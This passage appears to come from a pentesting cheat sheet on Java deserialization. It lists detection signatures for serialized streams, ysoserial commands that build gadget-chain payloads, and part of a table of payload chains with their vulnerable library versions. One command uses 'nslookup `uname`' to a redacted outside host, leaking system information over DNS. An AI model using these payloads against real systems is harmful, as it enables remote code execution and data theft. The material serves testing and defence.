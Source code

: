 # Java Deserialization

> Java serialization is the process of converting a Java object’s state into a byte stream, which can be stored or transmitted and later reconstructed (deserialized) back into the original object. Serialization in Java is primarily done using the `Serializable` interface, which marks a class as serializable, allowing it to be saved to files, sent over a network, or transferred between JVMs.


## Summary

* [Detection](#detection)
* [Tools](#tools)
    * [Ysoserial](#ysoserial)
    * [Burp extensions using ysoserial](#burp-extensionsl)
    * [Alternative Tooling](#alternative-tooling)
* [YAML Deserialization](#yaml-deserialization)
* [References](#references)


## Detection

- `"AC ED 00 05"` in Hex
    * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
    * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- Content-type = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)


## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**

| Payload             | Authors                                | Dependencies |
| ------------------- | -------------------------------------- | --- |                                                                                                                                                                      
| AspectJWeaver       | @Jang                                  | aspectjweaver:1.9.2, commons-collections:3.2.2 |
| BeanShell1          | @pwntester, @cschneider4711            | bsh:2.0b5 |
| C3P0                | @mbechler                              | c3p0:0.9.5.2, mchange-commons-java:0.2.11 |
| Click1              | @artsploit                             | click-nodeps:2.3.0, javax.servlet-api:3.1.0 |
| Clojure             | @JackOfMostTrades                      | clojure:1.8.0 |
| CommonsBeanutils1   | @frohoff                               | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2 |
| CommonsCollections1 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections2 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections3 | @frohoff                               | commons-collections:3.1 | 
| CommonsCollections4 | @frohoff                               | commons-collections4:4.0 |